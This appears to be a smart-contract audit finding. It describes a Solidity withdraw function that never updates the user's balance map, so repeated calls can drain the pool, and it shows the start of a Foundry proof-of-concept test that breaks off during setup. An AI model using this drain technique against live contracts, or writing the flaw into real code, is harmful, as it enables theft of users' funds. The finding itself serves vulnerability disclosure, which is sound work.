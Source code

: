 ```solidity
            /**
             * @dev token is ERC20 token
             * @dev transfer from capital pool to msg sender
             */
            _safe_transfer_from(
                _tokenAddress,
                capitalPoolAddr,
                _msgSender(),
                claimAbleAmount
            );
        }

        // @audit `userTokenBalanceMap` is not updated
        emit Withdraw(
            _msgSender(),
            _tokenAddress,
            _tokenBalanceType,
            claimAbleAmount
        );
}
```
In the code above, the function does not update the `userTokenBalanceMap` for the caller after a successful withdrawal, allowing malicious users to repeatedly call the withdraw function and drain tokens.

## Proof Of Concept
The following test demonstrates that malicious users can keep calling `withdraw` to drain the contract tokens. Copy and paste the following test into `test/PreMarkets.t.sol`:
```solidity
function test_usersCanDrainTokens() public {
        vm.startPrank(user1);
        capitalPool.approve(address(mockUSDCToken));

        // user creates Bid offer, he deposits 1000 USDC as collateral 
        vm.startPrank(user);
        preMarktes.createOffer(
            CreateOfferParams(
                marketPlace,
                address(mockUSDCToken),
                1000,
                1000 * 1e18,
                10000,
                300,
                OfferType.Bid,
                OfferSettleType.Turbo
            )
        );

        // user2 creates Bid offer, he deposits 1000 USDC as collateral 
        vm.startPrank(user2);
        preMarktes.createOffer(
            CreateOfferParams(
                marketPlace,
                address(mockUSDCToken),
                1000,
                1000 * 1e18,
                10000,
                300,
                OfferType.Bid,
                OfferSettleType.Turbo
            )
        );
```